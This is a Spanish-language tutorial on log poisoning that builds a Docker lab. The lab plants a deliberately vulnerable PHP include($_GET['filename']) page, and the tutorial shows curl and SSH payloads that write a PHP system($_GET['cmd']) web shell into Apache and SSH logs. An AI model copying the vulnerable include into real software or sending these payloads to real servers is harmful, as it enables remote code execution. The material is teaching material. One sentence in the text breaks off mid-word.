

# ¿Qué es Log Poisoning?
<br>
**Log Poisoning** es una vulnerabilidad que permite a un atacante inyectar contenido malicioso dentro de los archivos de registro (*logs*) de una aplicación o servidor. Esto ocurre cuando las entradas del usuario (como cabeceras HTTP, parámetros GET/POST, etc.) se almacenan directamente en los logs sin validación ni sanitización.

---

## ¿Cómo se explota?

El atacante aprovecha cualquier punto del sistema que registre actividad: formularios, agentes de usuario, rutas inválidas o errores controlados. Mediante estos vectores, puede introducir código HTML, JavaScript, comandos del sistema o incluso fragmentos PHP si el entorno lo permite.

## Laboratorio con docker
Usando docker junto con el servicio SSH para simular un ataque

crear un contenedor con la ultima version de ubuntu disponible:

```sh
docker pull ubuntu:latest
```


```sh
docker run -dit -p 80:80 -p 22:22 --name logPoisoning ubuntu
```

```sh
docker exec -it logPoisoning bash
```

una vez dentro del contenedor se deben instalar un par de dependencias

```sh
apt update
apt install apache2 ssh nano php -y
```

Levantando los servicios

```sh
service apache2 start
service ssh start
```
Cambiamos el index.html por un index.php con el script de prueba
 
```sh
cd /var/www/html/
rm -rf index.html
```

```php
<?php

    include($_GET['filename']);

?>

```
una vez confirmado el funcionamiento del servidor deberiamos darle permisos a el directorio apache2 para poder forzar esta vulnerabilidad.

```sh
chown www-data:www-data -R apache2/
```

## ¿Que es el User-Agent? 

El User-Agent es una cabecera HTTP que identifica al cliente que realiza una petición a un servidor web. Informa sobre el navegador, sistema operativo, dispositivo y otros detalles del entorno del usuario.


## Ejemplo de explotacion usando el contenedor de docker.
Usando el User-Agent para inyectar codigo php

algo interesante para intentar hacer es ver que nos d

```sh
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo();?>"
```

> phpinfo() es usado para verificar si el código fue interpretado (muestra información del entorno PHP).
{: .prompt-info}

## Inyeccion de Comandos

```sh
curl -s -X GET "http://10.88.0.2" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```



## Envenenando logs en SSH
```sh
ssh '<?php system($_GET["cmd"]); ?>'@ip-victima
```


## ¿ Como es posible este suceso?


El servidor guarda entradas (como User-Agent, Referer, etc.) en archivos .log.
<br>
Si el contenido del log se incluye luego en un script PHP vulnerable (por ejemplo, por medio de include() en un LFI), el código se ejecuta.
